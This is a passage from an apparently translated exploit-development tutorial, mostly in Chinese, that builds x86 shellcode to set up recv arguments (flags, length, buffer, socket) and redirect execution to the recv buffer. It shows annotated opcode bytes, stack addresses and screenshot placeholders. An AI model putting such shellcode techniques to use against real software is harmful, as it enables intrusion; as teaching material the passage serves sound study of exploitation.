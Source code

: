 让我们把这些添加到外壳代码中。

![](img/b62638c8a44101a4e5c0d8c1fd1619b2.png)

```
**### recv - Flags & Len (Shellcode Cont'd)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
\x83\xEC\x74          # SUB ESP, 0x74
**\x33\xDB              # XOR EBX, EBX
\x53                  # PUSH EBX
\x80\xC7\x02          # ADD BH, 0x2
\x53                  # PUSH EBX**
```

## 接收(缓冲器和插座)

接下来，我们需要将我们的执行重定向到`recv`缓冲区的位置。我们现在的 ESP 是`0x0172F964`。

![](img/594f1434d63ba4d9af64b801b703cc71.png)

我们想在 recv buffer 参数所在的地址`0x172F9DC`上继续我们的执行流程。

![](img/0182b3e11ae750367ca18abdef0d67f3.png)
